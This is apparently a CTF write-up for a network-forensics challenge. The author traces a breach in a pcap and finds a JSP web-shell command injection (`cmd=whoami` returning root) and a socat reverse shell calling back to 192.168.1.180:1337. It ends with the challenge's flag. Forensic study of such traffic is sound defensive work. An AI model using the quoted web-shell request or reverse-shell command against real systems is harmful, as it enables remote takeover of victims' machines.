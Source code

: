 # Wrong Spooky Season
Hack the Boo CTF 2022

## Description

```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." 

Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

## Challenge Explanation

For this challenge, we are given a pcap file with network traffic that occured during a breach. The goal is to analyze the traffic and see what went down.


## The Breach

First, I opened the PCAP in Wireshark and filtered down to only HTTP requests. The early traffic looks innocuous, just retrieving images and HTML documents.

![http traffic data](assets/http-traffic-1.png)

However, later on in the traffic, we can see the breach occur. First, we see evidence of a command injection in packet 416. The attacker hits an endpoint with a GET request, and a query string of `cmd=whoami`:

```GET /e4d1c32a56ca15b3.jsp?cmd=whoami HTTP/1.1\r\n```

In the server response, we can see that this command was executed on the victim's machine, and even worse, the result of the `whoami` command... this process is running as `root`!

![root](assets/root.png)

After this, things devolve quickly. In packet 436, a command is sent to install Socat, a Linux tool used for working with sockets. Finally, in packet 464, the attacker sends the following command:

```
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash
```

This is a super basic reverse shell. The attacker has presumably set up a listener on their own machine at 192.168.1.180:1337 that is waiting for incoming TCP connections. The Socat command sent to the victim will cause the victim's machine to connect back to the attacker and spawn a shell that the attacker can then use.

## The Solution

At this point, I spun my wheels for a bit. Eventually with some help from my teammates, I realized that because the attacker now has a shell, there would of course be no further HTTP requests. Everything from this point on will just be TCP going to and from 192.168.1.180:1337. I removed the Wireshark filter and found that there were a bunch of messages sent after the creation of the reverse shell. In the packets that go `1337->45416`, we can see commands that the attacker is typing into the victim's shell. In packets going the other way, we can see the shell's output. In packet 500, the attacker sends a large command with `echo` and `socat`.

![flag command](assets/flag.png)

This could be interesting. By using Wireshark's Trace feature, we get a nice view of the entire conversation:

![socat command](assets/socat-command.png)

Among other things, it looks like the attacker is sending over a backwards base64-encoded string, and then reversing it once it's on the victim's machine. This was likely done to simulate the kinds of code obfuscation that would happen when a real attacker attempts to do something like getting malware past the victim's antivirus.

If we grab the base64 string, reverse it, and decode it ourselves, this is what we get: 

```
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Success!